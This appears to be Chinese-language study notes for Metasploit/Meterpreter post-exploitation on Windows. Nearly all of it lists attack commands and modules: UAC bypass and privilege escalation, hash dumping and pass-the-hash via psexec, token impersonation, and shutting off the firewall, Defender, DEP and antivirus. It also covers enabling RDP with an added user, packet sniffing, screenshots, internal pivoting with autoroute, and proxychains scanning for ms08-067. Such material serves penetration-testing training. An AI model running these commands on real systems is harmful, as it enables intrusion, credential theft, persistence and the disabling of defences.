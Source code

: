 # 概要

1. 权限提升：权限提升的集中方式
2. 信息收集：服务器信息、Hash、防火墙杀毒软件、账号密码
3. 内网渗透：端口转发、代理跳板
4. 后门植入：永久后门维持权限

# 权限提升

1. 提高程序运行级别
- Exploit/windows/local/ask

上面模块执行攻击以后，在靶机会弹出一个UAC对话框，当且仅当靶机管理员点击是（授权执行）以后才能收到提权的反弹shell，也就是说需要和管理员交互。

2. UAC绕过
- Exploit/windows/local/bypassuac
- Exploit/windows/local/bypassuac_injection
- Exploit/windows/local/bypassuac_vbs

上面模块不需要与靶机管理员交互，直接绕过UAC（执行成功以后需要再执行getsystem命令）

3. 利用本地提权漏洞进行提权

根据具体的系统环境，查找对应的本地系统提升漏洞

# 信息收集

信息收集相关
- 获取目标机器的分区情况：post/windows/gather/forensics/enum_drives
- 判断是否为虚拟机：post/windows/gather/checkvm
- 开启哪些服务：post/windows/gather/enum_services
- 安装了哪些应用：post/windows/gather/enum_applocations
- 查看共享：post/windows/gather/enum_shares
- 获取主机最近的系统操作：post/windows/gather/dumplinks
- 查看补丁：post/windows/gather.enum_applications
- scraper脚本
- winenum脚本

 
# 数据包捕获

抓包与解包
> 抓包

- 加载sniffer:load sniffer
- 查看网卡信息：sniffer_interface
- 开启监听：sniffer_start 1
- 导出数据包:sniffer_dump 1 1.cap

> 解包

- auxiliary/sniffer/psnuffle

# PassingTheHash
Hash 基础知识
windows系统下的hash密码格式为：

> 用户名称：RID：LM-HASH值：NT-HASH值


获取Hash值

- Hashdump
- Run post/windows/gather/smart_hashdump
- 检查权限和系统类型
- 检查是否是域控制器
- 从注册表读取hash、注入LSASS进程
- 如果是08server并具有管理员权限，直接getsystem尝试提权
- 如果是win7且UAC关闭并具有管理员权限，从注册表读取
- 03/xp直接getsystem,从注册表获取hash

Hash传递(直接用hash密文登录，前提是关闭了UAC)
- Pasexec: exploit/windows/smb/psexec


# 关闭防火墙及杀毒软件
> 关闭防火墙
- Netsh advfirewall set allprofiles state off (管理员及以上权限)

> 关闭Denfender
- Net stop windefend

> 关闭DEP
- Bcdedit.exe /set{current} nx AlwaysOff

> 关闭杀毒软件
- Run killav
- Run post/windwos/manage/killava

# 远程桌面

>开启远程桌面
- run post/windows/manage/enable_rdp
- run getgui -e

> 开启远程桌面并添加一个新用户bean:
- run getgui -u bean -p ean

>开启远程桌面并绑定在8888端口：
- run getgui -e -f 8888

>截图
- load espia
- screengrab

# 令牌假冒

什么是令牌假冒？
> 假冒令牌可以假冒一个网络中的另一个用户进行各类操作。 所谓的令牌：例如当一个用户登录系统，则它会被赋予一个访问令牌作为认证信息。 所以当一个攻击者需要域管理员的操作权限时候，需要通过假冒令牌方式进行入侵攻击。

> windows安全相关概念
- session
- windows station
- Desktop
- Login Session:不同账号登录产生不同的登录Session,代表不同的账号权限


>Tokens简介
- 与进程相关联，进程创建时根据LoginSession分配对应Token，含有该进程用户账号、组信息、权限信息等
- 用户每次登录，产生LoginSession分配对应Token
- 访问资源时提交Token进行身份验证，类似于web cookie
- Delegate Token：交互登录会话
- Impersonate Token：非交互登录会话



> Incognito
- 独立软件，被继承到msf的meterpreter中
- 不用获取账号密码窃取token将自己伪装成合法用户
- 适用于域环境下提权渗透多操作系统


# 跳板攻击
> Pivoting
- 利用已经被入侵的主机作为跳板来攻击网络中的其他系统
- 访问由于路由问题而不能直接访问的内网系统

> 自动路由
- run autoroute -s 192.168.102.0/24
- run post/multi/manage/autoroute
- 利用win7攻击内网服务器
- 扫描内网网络
1. run post/windows/gather/arp_scanner rhosts=192.168.102.0/24   (扫描该网段活跃主机)
2. use auxiliary/scanner/portscan/tcp   （扫描目标内网主机开放的端口）


# 代理设置
> socket代理
- auxiliary/server/socks4a

> ProxyChains
- ProxyChains是为GNU/linux操作系统开发的工具。任何tcp连接都可以通过tor或者soxket4,socket5,http/https路由到目的地、在这个通道技术中可以使用多个代理服务器。除此之外提供匿名方式，诸如用于中转跳板的应用程序也可以用于对发现的新网络进行直接通信。
- proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse <IP>


看到第13